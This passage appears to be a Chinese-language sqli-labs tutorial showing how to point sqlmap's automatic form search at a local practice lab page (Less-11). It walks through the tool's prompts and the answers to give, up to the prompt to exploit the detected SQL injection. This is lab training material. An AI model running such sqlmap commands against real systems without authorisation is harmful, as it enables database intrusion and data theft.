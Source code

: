 ## 注入方式二：自动搜索表单的方式

sqlmap.py  -u "http://localhost/sqli-labs-master/Less-11/index.php" --forms

![](./assets/20250210/e872c84c504841229217678a4c2f28d2.png)

do you want to test this form? [Y/n/q]
要测试此表单吗?[Y/n/q]  输入"Y"

do you want to fill blank fields with random values? [Y/n]
是否要填充带有随机值的空白字段? [Y/n]  输入"Y"

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 输入"Y"

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？[Y/n]  输入"N"

POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"N"

do you want to exploit this SQL injection? [Y/n]
你想利用SQL注入？ 输入"Y"

![](./assets/20250210/c85f697c76f44e7a92793e51a1ab51d4.png)
